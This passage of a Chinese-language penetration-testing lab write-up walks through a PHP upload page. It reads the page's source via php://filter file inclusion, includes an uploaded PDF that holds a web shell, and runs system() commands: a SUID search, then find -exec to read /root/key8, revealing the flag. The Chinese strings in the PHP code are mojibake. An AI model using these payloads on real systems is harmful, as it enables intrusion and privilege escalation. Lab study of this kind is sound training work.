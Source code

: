 archive=php://filter/read=convert.base64-encode/resource=/usr/share/nginx/PIzABXDg/model/order_upload.php

```php+HTML
<?php
$operates['upload'] = 'ä¸ä¼ æ¡£æ¡';

$target_dir = "CISP-PTE-1413/";
$info = '';

if(isset($_POST["submit"])) {

	$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
$uploadOk = 1;
$fileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
// Check if image file is a actual image or fake image
  // Check if file already exists
if (file_exists($target_file)) {
    $info = "æä»¶å·²ç»å­å¨";
    $uploadOk = 0;
}

// Allow certain file formats
if($fileType != "pdf") {
    $info = "åªåè®¸ä¸ä¼ PDFæä»¶";
    $uploadOk = 0;
}
// Check if $uploadOk is set to 0 by an error
if ($uploadOk == 0) {
} else {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        $info = basename( $_FILES["fileToUpload"]["name"]). " ä¸ä¼ æå";
    } else {
        $info = "ä¸ä¼ æä»¶æ¶åçéè¯¯";
    }
}
}

$main_tpl = "order_upload.htm";
$replace['{info}'] = $info;
?> 
```

这里看到第四行，确定了上传的pdf的目录CISP-PTE-1413

继续用文件包含，到这需要我们的一句话被解析，所以伪代码就不需要了可以去掉

![image-20221224185112044](F:/Typora_pic/pte/image-20221224185112044.png)

访问成功了，用find提权试一下

archive=/usr/share/nginx/PIzABXDg/CISP-PTE-1413/new.pdf&1=system('find / -perm /4000 -ls;');

![image-20221224185632804](F:/Typora_pic/pte/image-20221224185632804.png)

archive=/usr/share/nginx/PIzABXDg/CISP-PTE-1413/new.pdf&1=system('find /etc/passwd -exec cat /root/key8 \;');

![image-20221224185654119](F:/Typora_pic/pte/image-20221224185654119.png)**key8:5t7k48rw** 
